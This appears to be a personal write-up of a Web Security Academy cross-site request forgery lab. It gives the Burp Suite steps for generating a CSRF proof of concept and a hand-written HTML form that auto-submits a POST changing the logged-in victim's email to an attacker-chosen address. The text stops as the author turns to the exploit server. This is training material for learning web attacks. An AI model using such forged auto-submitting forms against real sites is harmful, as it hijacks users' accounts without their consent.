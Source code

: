 - Select a request anywhere in Burp Suite Professional that you want to test or exploit.
- From the right-click context menu, select Engagement tools / Generate CSRF PoC.
- Burp Suite will generate some HTML that will trigger the selected request (minus cookies, which will be added automatically by the victim's browser).
- You can tweak various options in the CSRF PoC generator to fine-tune aspects of the attack. You might need to do this in some unusual situations to deal with quirky features of requests.
- Copy the generated HTML into a web page, view it in a browser that is logged in to the vulnerable website, and test whether the intended request is issued successfully and the desired action occurs.

## LAB

![Pasted image 20241001171625.png](../../../../IMAGES/Pasted%20image%2020241001171625.png)
For this lab, since I do not have Burp pro edition, I will go for the community solution, for example, I created my own **CSRF** code for this lab:

```html
<html></html>
    <body>
        <form action="https://0a4e0039034ff4a583cc1ef500f10015.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@user.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Let's go to our exploit server and store the html code:
